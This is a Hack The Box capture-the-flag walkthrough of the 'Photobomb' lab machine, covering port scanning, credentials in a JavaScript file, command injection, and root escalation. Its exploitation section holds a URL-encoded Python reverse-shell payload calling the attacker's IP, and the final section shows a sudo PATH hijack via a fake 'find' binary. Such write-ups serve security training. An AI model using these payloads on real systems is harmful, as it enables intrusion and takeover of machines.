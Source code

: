# Hack The Box - Photobomb Walkthrough 

## Reconnaissance
Retrieving the IP address of the machine, I started a quick inital Nmap scan to see which ports are open and which services are running on those ports.
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Photobomb]
└─$ sudo nmap -sC -sV -sT -O -oA nmap/initial 10.10.11.182 -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-28 05:46 EST
Stats: 0:01:41 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 49.50% done; ETC: 05:50 (0:01:42 remaining)
Stats: 0:04:56 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 68.62% done; ETC: 05:53 (0:02:15 remaining)
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.50s latency).                                                                                                                                 
Not shown: 997 closed tcp ports (conn-refused)                                                                                                              
PORT     STATE    SERVICE VERSION                                                                                                                           
22/tcp   open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)                                                                      
| ssh-hostkey:                                                                                                                                              
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)                                                                                              
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)                                                                                             
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)                                                                                           
80/tcp   open     http    nginx 1.18.0 (Ubuntu)                                                                                                             
|_http-title: Photobomb                                                                                                                                     
|_http-server-header: nginx/1.18.0 (Ubuntu)                                                                                                                 
3690/tcp filtered svn                                                                                                                                       
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).                                                         
TCP/IP fingerprint:                                                                                                                                         
OS:SCAN(V=7.92%E=4%D=1/28%OT=22%CT=1%CU=36113%PV=Y%DS=2%DC=I%G=Y%TM=63D5017                                                                                 
OS:7%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10D%TI=Z%CI=Z%TS=A)SEQ(SP=1                                                                                 
OS:05%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M537ST11NW7%O2=M537ST11NW7%O                                                                                 
OS:3=M537NNT11NW7%O4=M537ST11NW7%O5=M537ST11NW7%O6=M537ST11)WIN(W1=FE88%W2=                                                                                 
OS:FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M537NNSN                                                                                 
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D                                                                                 
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O                                                                                 
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W                                                                                 
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R                                                                                 
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)                                                                                                              
                                                                                                                                                            
Network Distance: 2 hops                                                                                                                                    
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                                                                                     
                                                                                                                                                            
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                       
Nmap done: 1 IP address (1 host up) scanned in 1120.72 seconds   
```

So, we got `two` ports open
- Port `22`: running `OpenSSH 8.2p1 `
- Port `80`: runninng `nginx 1.18.0`

So Now, I ran `Rustscan` that covers all ports. The idea behind using `Rustscan` is that it is faster compared to Nmap since `Rustscan` using Multi-threading but doesnt have service, OS, script scan features. So, I basically used `Rustscan` to find open ports and If I find them, i'll only scan those ports for services, version & OS detection using Nmap, making it faster and much efficient.
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Photobomb]
└─$ rustscan -a 10.10.11.182 --range 1-65535
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.182:22
Open 10.10.11.182:80
[~] Starting Nmap
[>] The Nmap command to be run is nmap -vvv -p 22,80 10.10.11.182

Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-28 06:13 EST
Initiating Ping Scan at 06:13
Scanning 10.10.11.182 [2 ports]
Completed Ping Scan at 06:13, 3.03s elapsed (1 total hosts)
Nmap scan report for 10.10.11.182 [host down, received no-response]
Read data files from: /usr/bin/../share/nmap
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.07 seconds
```

## Enumeration
Now, that I know Port `80` will be the only way to enumerate this machine going forward, I visted the website. 

As soon as I entered the IP address in the URL, it changed to `photobomb.htb`, so I added the hostname and IP address to `/etc/hosts` file
```
sudo echo 10.10.11.182 photobomb >> /etc/hosts
```

The visiting webpage was as following, and there was a `click here` link, which on clicking presented a `login` prompt to me.

![pb-1](https://user-images.githubusercontent.com/87711310/215263438-79f3464a-9d69-4604-b30e-38a04282fa65.png)

Since, I didnt know any credentials, I tried common credentials and they did not work.

So, I looked at the source-code, and found an interesting `.js` file

![pb-2](https://user-images.githubusercontent.com/87711310/215263442-4808c2e0-24dd-4896-b851-8d3cca1f3c64.png)

Looking at the contents of `photobomb.js` file, I found `username:password` combination in a `wierd email format`. 

![pb-3](https://user-images.githubusercontent.com/87711310/215263440-88af22be-63b0-4e2d-8b53-c24888f55928.png)

Since, there was nothing else than a `login` page that I encountered, I decided to use these credentials to check whether I could sign-in to the `/printer` page.

And guess what? we did sign in to the website!! Once, we're signed in, I was in the `/printer` directory of the website and could see a couple of things

![pb-4](https://user-images.githubusercontent.com/87711310/215263444-3c196b5f-a89c-43d7-894e-a11ec6ec7541.png)

There was also a functionality to select the image type (.raw, .jpg, etc.) and even a button to download the images

![pb-5](https://user-images.githubusercontent.com/87711310/215263446-9d9a2e7b-619f-4ed4-a647-cbaa38d679c0.png)

So, now I captured the request in `Burp` and try some `command injection` in all the parameters since I didnt know which parameter was vulnerable.

![pr-6](https://user-images.githubusercontent.com/87711310/215265132-60dc96ba-def7-4fad-9fc5-e775eef7dec5.png)

Before that I hosted a web-server on my machine to provide a file for the request to access.

Once I sent the request, I got an error for dimensions, which confirms that there was no vulnerability in `dimensions` parameter


![pr-7](https://user-images.githubusercontent.com/87711310/215265347-cc243110-e307-445c-80f3-b2987eea6761.png)

So, I removed the payload from `dimensions` parameter and sent the request with the payload in only `filetype` parameter and we got a hit!

The request gave an error.

![pr-8 1](https://user-images.githubusercontent.com/87711310/215265323-3c838f21-e3de-4014-8d34-902c9a044ba2.png)

But we got a hit on our server.

![pr-8 2](https://user-images.githubusercontent.com/87711310/215265322-29b7dded-9d21-4c96-ba18-e7628ec7b1e4.png)

Now that I know this parameter is vulnerable to `command injection`, I decided to get a reverse shell to my machine

## Exploitation

Firstly, I tried the `bash` payload, but it didn't seem to work, so, I decided to use `python` one instead

```python
%3bexport+RHOST%3d"10.10.16.2"%3bexport+RPORT%3d9001%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("sh")'
```

Before sending the request, I turned on the `netcat` listener
```
nc -lvnp 9001
```

Once I sent the request, I immediately got back the shell with a user `wizard`
```
Once┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Photobomb]
└─$ nc -lvnp 9001    
listening on [any] 9001 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.182] 54824
$ whoami
whoami
wizard
$ 
```

Then, I made it an interactive shell
```python
python3 -c "import pty;pty.spawn('/bin/bash')" 
```

Then, I moved on to retrieve the `user` flag

```
wizard@photobomb:~/photobomb$ cd /home
cd /home
wizard@photobomb:/home$ ls
ls
wizard
wizard@photobomb:/home$ cd wizard
cd wizard
wizard@photobomb:~$ ls
ls
photobomb  user.txt
wizard@photobomb:~$ cat user.txt
cat user.txt
[REDACTED]

```

## Privilege Escalation
Now, before using `Linpeas`, I always check what services could be ran as `root` users with the `sudo -l` command

Seems like we can run `cleanup.sh` with `root` permission. So let’s try to view the contents of `cleanup.sh` for any possibilities to gain `root` privilege

```
wizard@photobomb:~$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;

```

It's just a simple `bash` file, what we can do is add `bash` in the file and execute it with `root` permission to give us a `root` shell

```
wizard@photobomb:~$ echo bash >> /opt/cleanup.sh
echo bash >> /opt/cleanup.sh
bash: /opt/cleanup.sh: Permission denied
wizard@photobomb:~$ echo bash > find
echo bash > find
wizard@photobomb:~$ chmod +x find
chmod +x find
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# whoami
whoami
root
```

Now, I was not directly able to add bash to the `cleanup.sh` file, so I added it to `find` and then executed the `bash` file

```
root@photobomb:/home/wizard/photobomb# cat /root/root.txt
cat /root/root.txt                                                                                                                                                                                                                                                                                                          
[REDACTED]
```

And we can get the `user` flag!!!

